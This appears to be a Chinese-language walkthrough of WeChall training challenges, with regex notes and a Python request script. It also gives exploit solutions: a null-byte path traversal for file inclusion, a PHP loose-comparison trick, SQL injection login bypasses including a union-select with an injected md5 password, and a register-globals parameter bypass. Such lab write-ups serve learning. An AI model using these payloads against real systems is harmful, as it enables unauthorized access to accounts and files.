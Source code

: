 #### [Training: Regex](http://www.wechall.net/challenge/training/regex/index.php) ([Training](http://www.wechall.net/challs/Training), [Regex](http://www.wechall.net/challs/Regex))

正则表达式匹配空字符串，并且仅匹配空字符串

```
/^$/
```

^用于匹配字符串头，$匹配字符串尾。

^$用于匹配一行开始/结束的字符串



用于精确匹配



```
[\s\S]
```

匹配所有。\s 是匹配所有空白符，包括换行，\S 非空白符，不包括换行。



```
\w
```

匹配字母、数字、下划线。等价于 [A-Za-z0-9_]



```
\d 匹配数字
\D 匹配任意非数字的字符
```



```
[\w\W] 也可以达到 [\s\S]
```



```
\b	匹配一个单词边界，即字与空格间的位置。
\B	非单词边界匹配。
```

\b 位于要匹配的字符串的开始，它在单词的开始处查找匹配项。如果它位于字符串的结尾，它在单词的结尾处查找匹配项。

```
/ter\b/ 匹配Chapter结尾的ter
/\bCha/ 匹配Chapter开头的Cha
```







```
{n} 匹配n次
{n,} 匹配大于等于n次
{n,m} 匹配大于等于n小于等于m次
```





```
\d{3}
```

匹配三个数字



```
(pattern)：匹配pattern并捕获该匹配的子表达式，可以使用$0…$9属性从结果”匹配”集合中检索捕获的匹配；
```



Regex Group: 

()表示捕获分组，() 会把每个分组里的匹配的值保存起来， 多个匹配值可以通过数字 n 来查看(n是一个数字，表示第 n 个捕获组的内容)



non-capturing group

```
(?:) 匹配pattern但不捕获该匹配的子表达式
```



```
exp1(?=exp2)：查找 exp2 前面的 exp1
/ra(?=1)/ 匹配1前的ra
```

```
(<=exp2)exp1：查找 exp2 后的 exp1
```

```
exp1(?!exp2)：查找后面不是 exp2 的 exp1
```

```
(?<!exp2)exp1：查找前面不是 exp2 的 exp1
```

#### [Training: Programming 1](http://www.wechall.net/challenge/training/programming1/index.php) ([Training](http://www.wechall.net/challs/Training), [Coding](http://www.wechall.net/challs/Coding))



```python
import requests
url = 'http://www.wechall.net/challenge/training/programming1/index.php?action=request'
headers = {
    'WC' :  '13703310-59474-gTryTu3QC2EXBdiS'
}
r = requests.get(url, cookies = headers)
key = r.text
print(re.text)
url2 = 'http://www.wechall.net/challenge/training/programming1/index.php?answer='
requests.get(url2 + key, cookies = headers)
```



#### [Training: PHP LFI](http://www.wechall.net/challenge/training/php/lfi/up/index.php) ([Exploit](http://www.wechall.net/challs/Exploit), [PHP](http://www.wechall.net/challs/PHP), [Training](http://www.wechall.net/challs/Training))

字符串截断(用法已经被抛弃)

http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00



#### [PHP 0817](http://www.wechall.net/challenge/php0817/index.php) ([PHP](http://www.wechall.net/challs/PHP), [Exploit](http://www.wechall.net/challs/Exploit))

http://www.wechall.net/challenge/php0817/index.php?which=solution

php中switch 执行的是松散比较 ==

两边变量为string或者null， 执行数字或者数值 ，"42" == 42 true

同时对 "php" == 0 true



#### [Training: Crypto - Transposition I](http://www.wechall.net/challenge/training/crypto/transposition1/index.php) **([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))**

ihipfcngaicd

临位互换



#### [Training: Crypto - Substitution I](http://www.wechall.net/challenge/training/crypto/simplesub1/index.php) ([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))

https://quipqiup.com/



#### [Training: MySQL I](http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php) ([MySQL](http://www.wechall.net/challs/MySQL), [Exploit](http://www.wechall.net/challs/Exploit), [Training](http://www.wechall.net/challs/Training))

admin' or '1' = '1

```bash
select * from users where username='admin' or '1'='1' and password='123' or '1'='1
```





#### [Training: MySQL II](http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php) ([MySQL](http://www.wechall.net/challs/MySQL), [Exploit](http://www.wechall.net/challs/Exploit), [Training](http://www.wechall.net/challs/Training))



```sql
mysql> select 1,2,3,4,5,6;
+---+---+---+---+---+---+
|1  | 2 | 3 | 4 | 5 | 6 |
+---+---+---+---+---+---+
|1  | 2 | 3 | 4 | 5 | 6 |
+---+---+---+---+---+---+

mysql> select * from users;
+---+---+---+
|id |usn|pwd|
+---+---+---+
|1  |xx |122|
|2  |xx |123|
|3  |xx |123|
+---+---+---+

mysql> select 1,2,3 from users;
+---+---+---+
|1  |2  |3  |
+---+---+---+
|1  |2  |3  |
|1  |2  |3  |
|1  |2  |3  |
+---+---+---+
```



```php
$password = md5($password);
$query = "SELECT * FROM users WHERE username='$username'";
```



题目中表格属性为

```
/* TABLE STRUCTURE
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
*/
```



union会将查找到的结果合并

所以我们需要填充3列



123' union select 1, 'admin', md5('123');#

123



#### [Training: Register Globals](http://www.wechall.net/challenge/training/php/globals/index.php) ([Exploit](http://www.wechall.net/challs/Exploit), [PHP](http://www.wechall.net/challs/PHP), [Training](http://www.wechall.net/challs/Training))

?username=admin&password=123&login[0]=admin



